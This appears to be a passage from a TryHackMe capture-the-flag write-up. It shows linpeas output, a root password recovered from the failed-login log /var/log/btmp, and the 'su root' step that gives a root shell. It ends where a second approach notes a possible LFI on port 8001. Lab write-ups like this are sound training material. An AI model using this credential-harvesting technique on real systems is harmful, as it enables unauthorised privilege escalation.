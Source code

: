 Got a shell

Running linpeas I found 

```bash
[+] Interesting GROUP writable files (not in Home) (max 500)                                               
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files   
  Group serv1:                                                                       
                                                                                    
  Group utmp:                                                                     
**/var/log/btmp**                                                                                                                              
/run/utmp                                                                                                       
/run/screen
```

This file has the **root** password

```bash
serv1@web-serv:/var/log$ cat btmp 
)       ssh:nottyroot**MGQ4NmIy**192.168.1.142ǯ*`
```

Using this got root shell 

```bash
serv1@web-serv:/var/log$ su root
Password:
root@web-serv:/var/log#
```

With this got root using the first user.

# Second Approach

# Port 8001

![/assets/images/TryHackMe/hackerofthehill_easy/Untitled%207.png](/assets/images/TryHackMe/hackerofthehill_easy/Untitled%207.png)

URL shows potential LFI vulnerability.
